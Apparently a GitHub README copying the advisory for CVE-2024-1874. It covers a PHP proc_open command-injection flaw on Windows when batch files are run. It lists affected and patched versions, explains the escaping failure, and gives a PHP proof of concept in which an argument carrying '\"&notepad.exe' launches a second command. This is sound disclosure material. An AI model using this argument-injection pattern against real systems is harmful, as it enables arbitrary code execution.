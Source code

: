# CVE-2024-1874
## Command injection via array-ish $command parameter of proc_open even if bypass_shell option enabled on Windows

## 악용시 전적으로 본인 책임
## Critical	bukka published GHSA-pc52-254m-w9w7 last week
```
Affected versions
< 8.1.28
< 8.2.18
< 8.3.5

Patched versions
8.1.28
8.2.18
8.3.6
```
## Description
### Summary

NOTE: There are undergoing reports regarding the command injection when executing the batch file, and several programming languages are coordinating the disclosure date. If you decide to not consider this as a vulnerability, please do not disclose this behavior until the end of February. If the coordinated disclosure is needed, please let me know.

Due to the improper handling of command line arguments on Windows, maliciously crafted arguments can inject arbitrary commands even if the bypass_shell option is enabled.

### Details
proc_open executes external commands passed via its arguments. 
The documentation of this function [states the following](https://www.php.net/manual/en/function.proc-open.php):

```
As of PHP 7.4.0, the command may be passed as an array of command parameters. In this case, the process will be opened directly (without going through a shell) and PHP will take care of any necessary argument escaping.
```

```
bypass_shell (windows only): bypass cmd.exe shell when set to true
```

However, when executing .bat or .cmd files, CreateProcess implicitly spawns cmd.exe, resulting in command line arguments being parsed in cmd.exe despite the documentation explicitly stating it doesn't spawn the shell.
While proc_open tries to escape the arguments, command prompts will not recognize \ as the escape character. So, the following command line argument will spawn calc.exe:


```
test.bat "\"&calc.exe"
```
### poc
1. Save the following file as test.bat.
```
echo hello
```
2. Save the following file as test.php

```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes);
proc_close($proc);
```

3. Run it with PHP and confirm that notepad.exe is executed.
Alternatively, you can use the following PHP file to confirm that the bypass_shell option doesn't prevent this behavior.

```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes, null, null, array("bypass_shell" => true));
proc_close($proc);
```
### Impact
This vulnerability allows malicious command line arguments to execute arbitrary commands if it's passed to .bat or .cmd through proc_open.
Since command line arguments are not expected to be parsed via the shell, it allows unexpected code executio
